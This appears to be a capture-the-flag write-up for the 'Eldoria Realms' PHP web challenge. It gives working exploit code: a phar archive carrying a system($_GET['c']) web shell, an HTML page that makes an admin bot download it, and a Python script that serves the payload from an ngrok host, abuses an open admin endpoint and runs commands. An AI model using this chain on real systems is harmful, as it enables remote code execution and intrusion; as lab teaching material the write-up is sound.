

# Eldoria Realms

> A development instance of a panel related to the Eldoria simulation was found. Try to infiltrate it to reveal Malakar's secrets.

**Difficulty:** Medium  
**Source Code:** Provided  
**Techniques used:** Broken Access Control and Phar file upload

Alright, I had some trouble with this challenge, I think I got a little stuck because the first time I tried it was right after getting wrecked by the [cyber attack](../cyber_attack/writeup-en.md) challenge, on Friday night. 

But on Monday, after finishing the  [cyber attack](../cyber_attack/writeup-en.md) challenge, I regained my hope and came back to this one. And it was a good challenge, a bit complex, but still pretty straightforward once you spot the right thing.

The whole app is written in PHP using the Slim framework, and there's a Python-based bot that opens a URL logged in as admin whenever the `/api/claimQuest` endpoint is called (found in `challenge/src/routes.php`).

At first, I couldn't find any obvious vulnerability, maybe a supposed stored XSS, but I didn’t see a way to get it triggered by the bot. The code was clean and looked relatively secure. But we're talking about a CTF, there has to be a vulnerability, probably more than one since it’s marked as medium difficulty.

So I reviewed all plugins and components listed in `composer.json and requirements.txt`, hoping to find something. Nope. Then I moved on to checking `nginx and php.ini misconfigurations`. I spent a generous amount of time poking around `php-fpm`.

After walking in circles for a while, I carefully re-read this method in `challenge/src/routes.php`
```php
// ------------------------
// Static Page Routes
// ------------------------

function render($filePath) {
    if (!file_exists($filePath)) {
        return "Error: File not found.";
    }
    $phpCode = file_get_contents($filePath);
    ob_start();
    eval("?>" . $phpCode);
    return ob_get_clean();
}

// ------------------------
// All Routers call the render function.
// ------------------------
$app->get('/', function (Request $request, Response $response, $args) {
    $html = render($GLOBALS['settings']['templatesPath'] . '/login.php');
    $response->getBody()->write($html);
    return $response;
});
```

And got the possible way to solve the challenge, the file_exists accept the phar:// wrapper, so I just need send a phar file to the server, here we can try force a file download via bot, and call any the `/` a get a reverse shell.

Gotcha, that's it. The `file_exists()` function accepts the `phar://` wrapper. So all I had to do was force the bot to download a malicious `.phar` to the server. Then, trigger `/` to get the reverse shell.

Perfect! But how?

We need to manipulate `$GLOBALS['settings']['templatesPath']`, which only the admin can change, as seen in `challenge/src/routes.php`:
```php
// POST /api/admin/appSettings
$app->post('/api/admin/appSettings', function (Request $request, Response $response, $args) {
	$data = json_decode($request->getBody()->getContents(), true);
	if (empty($data) || !is_array($data)) {
		$result = ['status' => 'error', 'message' => 'No settings provided'];
	} else {
		$pdo = $this->get('db');
		$stmt = $pdo->prepare("INSERT INTO app_settings (key, value) VALUES (?, ?) ON CONFLICT(key) DO UPDATE SET value = excluded.value");
		foreach ($data as $key => $value) {
			$stmt->execute([$key, $value]);
		}
		if (isset($data['template_path'])) {
			$GLOBALS['settings']['templatesPath'] = $data['template_path'];
		}
		$result = ['status' => 'success', 'message' => 'Settings updated'];
	}
	$response->getBody()->write(json_encode($result));
	return $response->withHeader('Content-Type', 'application/json');
})->add($adminApiKeyMiddleware);
```

That brought me back to the `stored XSS` idea. At first, I discarded it, thinking it wouldn't work because the admin wouldn't be able to see the same data as the user who crafted the `stored XSS`. 
But if getting the flag requires making the admin update a specific field to trigger the exploit... maybe I was missing something.

> The suspicious `stored XSS` can be found in `challenge/templates/dashboard.php`
```javascript
  const cleanStatus = DOMPurify.sanitize(user.status || 'Ready for adventure!', {
	USE_PROFILES: { html: true },
	ALLOWED_TAGS: ['a', 'b', 'i', 'em', 'strong', 'span', 'br'],
	FORBID_TAGS: ['svg', 'math'],
	FORBID_CONTENTS: ['']
  });
```

Until I re-read the source for the millionth time... and then it hit me.
Try yourself: `challenge/src/routes.php`
```php
$adminApiKeyMiddleware = function (Request $request, $handler) use ($app) {
	if (!isset($_SESSION['user'])) {
		$apiKey = $request->getHeaderLine('X-API-Key');
		if ($apiKey) {
			$pdo = $app->getContainer()->get('db');
			$stmt = $pdo->prepare("SELECT * FROM users WHERE api_key = ?");
			$stmt->execute([$apiKey]);
			$user = $stmt->fetch(PDO::FETCH_ASSOC);
			if ($user && $user['is_admin'] === 1) {
				$_SESSION['user'] = [
					'id'              => $user['id'],
					'username'        => $user['username'],
					'is_admin'        => $user['is_admin'],
					'api_key'         => $user['api_key'],
					'level'           => 1,
					'rank'            => 'NOVICE',
					'magicPower'      => 50,
					'questsCompleted' => 0,
					'artifacts'       => ["Ancient Scroll of Wisdom", "Dragon's Heart Shard"]
				];
			}
		}
	}
	return $handler->handle($request);
};
```

This middleware doesn't actually restrict anything. It always returns `handle($request)`, even if you're not an admin. So the check is meaningless, you can hit the admin-only endpoints just by skipping the session and sending an empty header.


Let's start by generating the `.phar` file:
```php
<?php
$pharFile = 'poc.phar';
@unlink($pharFile);
$p = new Phar($pharFile);
$p->startBuffering();
$p->addFromString('login.php', '<?php echo "Exploit running <br />"; system($_GET["c"]); ?>');
$p->setStub('<?php __HALT_COMPILER(); ?>');
$p->stopBuffering();
```

The reason for injecting `login.php` is that the `render()` function will call the path using `phar://.../login.php`, which returns the `<?php ... ?>` contents. 
Think of the `.phar` file like a `zip archive`. we're basically telling to the`file_exists` and `file_get_contents` that inside this compressed file, there's a `login.php` containing our malicious `<?php..?>` code.

Next, host an `index.html` that forces the bot to download our `.phar` file:
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>FileSaver Async Script Demo</title>
</head>
<body>
  <h1>FileSaver Async Script Demo</h1>

  <script>
    window.addEventListener("load", function() {
      var url = '/phar';
      var callback = function(byteArray) {
        console.log('Callback called; byteArray length is:', byteArray.length);
      };

      var script = document.createElement('script');
      script.type = 'text/javascript';
      
      script.src = '//cdn.jsdelivr.net/g/filesaver.js';
      script.onload = function() {
        console.log((new Date().toString()) + ' : FileSaver Script is ready!');

        var fileNameOfFileSaver = '__PHAR_NAME__';
        var xhr = new XMLHttpRequest();
        xhr.open('GET', url, true);
        xhr.responseType = 'arraybuffer';

        xhr.onload = function() {
          var arrayBuffer = xhr.response;
          var byteArray = new Uint8Array(arrayBuffer);

          console.log((new Date().toString()) + ' : byteArray length > 30M, actually ' + byteArray.length + ' bytes. Saving locally...');
            const blob = new Blob([byteArray], {
              type: 'application/octet-stream'
            });
            saveAs(blob, fileNameOfFileSaver);

            byteArray = (new TextEncoder()).encode(
              'ExecuteAsyncScript Successfully, File Saved to |' + fileNameOfFileSaver + '| (' + byteArray.length + ' bytes)'
            );

          callback(byteArray);
        };

        xhr.send();
      };

      document.head.appendChild(script);
    });
  </script>
</body>
</html>
```
>Credit to `Cong Yang` from this [StackOverflow](https://stackoverflow.com/a/78749761). I just removed the size check from the original.

Send this page to the bot via `/api/claimQuest`. Once the `.phar` file is downloaded, use `/api/admin/appSettings` to update template_path with the `phar://` wrapper and trigger the reverse shell via `/?c=whoami`.

Here’s the full Python script that runs a local Flask server, starts ngrok, handles the `.phar`, and automates the whole exploit:
```python
import subprocess
import requests
import time
import sys
import argparse
import os
import threading

from flask import Flask, send_file, Response

app = Flask(__name__)

PORT = 5000

TARGET_URL = ""
PHAR_FILE = "./poc.phar"
CMD = ""

NGROK_PROCESS = None
NGROK_PUBLIC_URL = None

PHAR_DOWNLOADED = False

@app.route(f'/phar')
def serve_phar():
    print('[+] Bot requested the PHAR file.')
    
    global PHAR_DOWNLOADED
    PHAR_DOWNLOADED= True

    return send_file(PHAR_FILE, mimetype='application/octet-stream')

@app.route('/')
def serve_index():
    print('[+] Bot accessed the landing page.')
    with open('index.html', 'r') as f:
        html_template =  f.read()

    phar_name = os.path.basename(PHAR_FILE)
    html_template = html_template.replace('__PHAR_NAME__', phar_name)

    return Response(html_template, mimetype='text/html')

def start_ngrok(port):
    global NGROK_PROCESS, NGROK_PUBLIC_URL
    NGROK_PROCESS = subprocess.Popen(['ngrok', 'http', str(port)], stdout=subprocess.DEVNULL)
    print("[*] Starting ngrok...")

    time.sleep(2)
    try:
        tunnels = requests.get("http://127.0.0.1:4040/api/tunnels").json()['tunnels']
        NGROK_PUBLIC_URL = tunnels[0]['public_url']
        print(f"[*] Ngrok tunnel started at: {NGROK_PUBLIC_URL}")
    except Exception as e:
        print("[!] Failed to retrieve ngrok URL:", e)
        sys.exit(1)

def validate_args():
    global TARGET_URL, PHAR_FILE, CMD

    parser = argparse.ArgumentParser()
    parser.add_argument('--target', help='Url challenge', default="http://localhost:1337")
    parser.add_argument('--phar', default="./poc.phar", help='Phar Location')
    parser.add_argument('--cmd', default="cat /flag*txt", help='Command')

    args = parser.parse_args()
    PHAR_FILE = args.phar
    TARGET_URL = args.target
    CMD = args.cmd

def update_settings():
    print('[*] Sending request to update template_path (phar exploit injection).')

    phar_name = os.path.basename(PHAR_FILE)
    data = {
        "template_path":"phar:///var/www/Downloads/" + phar_name
    }
    response = requests.post(TARGET_URL + "/api/admin/appSettings", json=data)
    print(f'[+] Server responded: {response.status_code} - {response.text[:50]}')

def get_flag():
    print(f'[*] Sending command: {CMD}')

    query = {
        "c": CMD
    }
    response = requests.get(url=TARGET_URL, params=query)
    
    if response.status_code == 200 and 'Exploit' in response.text:
        print('[+] Exploit executed successfully. Server response:')
        print(response.text)
        return True
    else:
        print('[!] Exploit not triggered or failed.')
        return False

def delivery_exploit():
    request_to_download()
    update_settings()
    time.sleep(2)
    get_flag()

def request_to_download():
    while True:
        print('[*] Sending quest URL to bot to trigger PHAR download...')
        data = {
            "questId":"q1",
            "questUrl":NGROK_PUBLIC_URL,
            "companions":0
        }
        response = requests.post(TARGET_URL + "/api/claimQuest", json=data)
        print(f'[+] Response: {response.status_code} - {response.text[:50]}')

        time.sleep(15)
        if PHAR_DOWNLOADED:
            print('[+] PHAR file was downloaded by the bot.')
            break

def wait_to_execute(func, delay, *args, **kwargs):
    def wrapper():
        time.sleep(delay)
        func(*args, **kwargs)

    thread = threading.Thread(target=wrapper)
    thread.start()
    return thread

if __name__ == '__main__':
    validate_args()
    
    already_exploited = get_flag()
    if already_exploited:
        print('[!] Looks like the server is already exploited.')
        exit()

    try:
        start_ngrok(PORT)
        
        wait_to_execute(delivery_exploit, 10)
        print('[*] Flask server running. Waiting for the bot...')
        app.run(host='0.0.0.0', port=PORT)
    except Exception:
        print('[*] Shutting down ngrok...')
        if NGROK_PROCESS:
            NGROK_PROCESS.terminate()
```

Just run the script, pass the `--target`, the path to the `.phar` file, and the command you want to execute.

And with that… flag captured.
